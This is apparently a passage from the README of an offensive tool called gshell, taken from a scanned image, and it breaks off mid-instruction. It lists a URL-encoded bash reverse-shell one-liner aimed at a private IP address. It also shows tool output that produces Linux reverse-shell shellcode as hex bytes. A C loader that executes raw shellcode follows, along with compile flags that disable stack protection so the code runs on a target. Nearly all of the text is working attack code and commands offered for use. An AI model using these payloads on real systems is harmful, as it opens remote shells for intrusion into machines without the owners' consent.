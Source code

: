 ```sh

bash+-i+%3E%26+%2Fdev%2Fudp%2F192.168.111.120%2F443+0%3E%261

----------------NEXT CODE BLOCK----------------

```

## Example of Shellcodes

Here is an example of a shellcode:

```sh
PS C:\gshell> python .\gshell.py -i 192.168.220.131 -p 4433 --shellcode --srev --linux
[+] The IPv4 address: 192.168.220.131 is valid.
[+] The port number: 4433 is valid.
[+] Generating reverse shell shellcodes
[+] Generating Linux shellcodes
\x89\xe5\x31\xc0\x31\xc9\x31\xd2\x50\x50\xb8\x1\x1\x1\x1\xbb\xc1\xa9\xdd\x82\x31\xc3\x53\x66\x68\x11\x51\x66\x6a\x02\x31\xc0\x31\xdb\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc3\x66\xb8\x6a\x01\x89\xe1\x89\xea\x29\xe2\xcd\x80\x31\xc9\xb1\x03\x31\xc0\xb0\x3f\x49\xcd\x80\x41\xe2\xf6\x31\xc0\x31\xd2\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80
```

We could use the generate shellcode in another program or script:

```c
#include <stdio.h>
#include <string.h>

int main(void)
{
    unsigned char code[] = "SHELLCODE_HERE";
    printf("The shellcode length is: %d\n", strlen(code));
    void (*s)() = (void *)code;
    s();
    return 0;
}
```

Install 32-bit headers and libraries:

```sh
sudo apt-get install gcc-multilib
```

As an example we could compile the code above:

```sh
gcc -m32 -fno-stack-protector -z execstack example.c -o example
```

> More information about gcc compilation can be [found here](https://stackoverflow.com/questions/54082459/fatal-error-bits-libc-header-start-h-no-such-file-or-directory-while-compili).

Run the `example` program on the target to receive the reverse shell:
